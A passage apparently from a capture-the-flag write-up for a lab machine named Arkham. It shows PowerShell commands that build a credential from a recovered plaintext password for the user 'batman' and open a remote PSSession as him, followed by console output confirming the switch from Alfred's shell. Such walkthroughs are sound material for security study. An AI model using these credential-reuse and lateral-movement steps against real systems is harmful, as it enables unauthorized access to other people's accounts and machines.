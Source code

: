 ![](pics/email.JPG)

We can take Batman's password and do a PSsession with these three lines.
```powershell
$pass = convertto-securestring 'Zx^#QZX+T!123' -asplain -force
$cred = new-object system.management.automation.pscredential('arkham\batman', $pass)
enter-pssession -computer arkham -credential $cred
```
```powershell
C:\Users\Alfred\Downloads>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Alfred\Downloads> $pass = convertto-securestring 'Zx^#QZX+T!123' -asplain -force
$pass = convertto-securestring 'Zx^#QZX+T!123' -asplain -force
PS C:\Users\Alfred\Downloads> $cred = new-object system.management.automation.pscredential('arkham\batman', $pass)
$cred = new-object system.management.automation.pscredential('arkham\batman', $pass)
PS C:\Users\Alfred\Downloads> enter-pssession -computer arkham -credential $cred
enter-pssession -computer arkham -credential $cred
[arkham]: PS C:\Users\Batman\Documents> whoami
whoami
arkham\batman
```
